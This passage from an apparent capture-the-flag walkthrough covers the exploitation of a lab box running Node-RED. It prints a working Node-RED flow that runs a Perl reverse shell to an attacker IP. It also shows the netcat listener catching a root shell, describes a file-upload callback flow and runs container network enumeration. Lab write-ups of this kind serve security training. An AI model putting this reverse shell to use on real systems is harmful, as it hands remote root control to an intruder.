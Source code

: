 So the flow looks like:

![1532602489603](https://0xdfimages.gitlab.io/img/1532602489603.png)

```

[{"id":"6fe6b87a.30d988","type":"tab","label":"Reverse_TCP","disabled":false,"info":""},{"id":"6caeb9ad.e39468","type":"inject","z":"6fe6b87a.30d988","name":"9002","topic":"","payload":"9002","payloadType":"str","repeat":"","crontab":"","once":false,"onceDelay":0.1,"x":150,"y":160,"wires":[["97f946aa.853548"]]},{"id":"97f946aa.853548","type":"exec","z":"6fe6b87a.30d988","command":"perl -e 'use Socket;$i=\"10.10.14.14\";$p=","addpay":true,"append":";socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};'","useSpawn":"false","timer":"","oldrc":false,"name":"perl rev shell","x":350,"y":160,"wires":[["e2dba6a9.bb9fe8"],["e2dba6a9.bb9fe8"],[]]},{"id":"e2dba6a9.bb9fe8","type":"debug","z":"6fe6b87a.30d988","name":"","active":true,"tosidebar":true,"console":false,"tostatus":false,"complete":"false","x":570,"y":160,"wires":[]}]

```

Pushing the button leads to shell!

```

root@kali# nc -lnvp 9002
listening on [any] 9002 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.94] 45908
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# hostname
nodered

```

### File Upload

Since the box doesn’t have `curl` or `wget` or `nc`, I created a file upload flow, that would callback to a given port, and then what it reads to `/tmp/.df/upload`:

![1532602816978](https://0xdfimages.gitlab.io/img/1532602816978.png)

The string “9003” is not used by the TCP node, it’s just there because I needed something, and it was a good visual reminder as to what port the flow expected.

## nodered Container

### Local Enumeration

The local box is quite bare. I’m already running as root. As mentioned before, almost none of programs I’d expect on a linux host are present. Also, none of the IP addresses match 10.10.10.94:

```

# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
9: eth1@if10: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.3/16 brd 172.19.255.255 scope global eth1
       valid_lft forever preferred_lft forever
11: eth0@if12: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```